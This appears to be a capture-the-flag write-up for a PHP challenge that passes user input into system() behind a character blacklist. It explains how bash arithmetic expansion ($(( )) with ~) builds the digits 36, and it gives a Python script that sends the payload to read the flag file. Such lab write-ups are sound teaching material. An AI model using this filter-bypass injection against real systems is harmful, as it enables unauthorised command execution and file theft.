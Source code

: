 # WP



```php
// 还能炫的动吗？
//flag in 36.php 
if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
system("cat ".$c.".php");
} 
```

没有数字，没有字母，没有点，也不能用glob的命令执行
- ## 前置知识
  
  在linux中:
- `$((表达式))`是数学运算
- `~`按位取反，~x和-1-x相等
  
  所以
  
  `$(())`是0
  
  `~$(())`是~0
  
  `$((~$(())))`是-1
  
  > 也就是`$((第二行))`
  
  `$((第二行))$((第二行))$((第二行))$((第二行))`就是-1-1-1-1
  
  `$((上一行))`就是-4
  
  `$((~上一行))`就是3
  
  同理，我们可以构造出代表36的字符串
  
  最终脚本：
  
  ```python
  weird_str = "$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))"
  
  r = requests.get(url, params = {
    "c": weird_str
  })
  
  print(r.text)
  ```
-
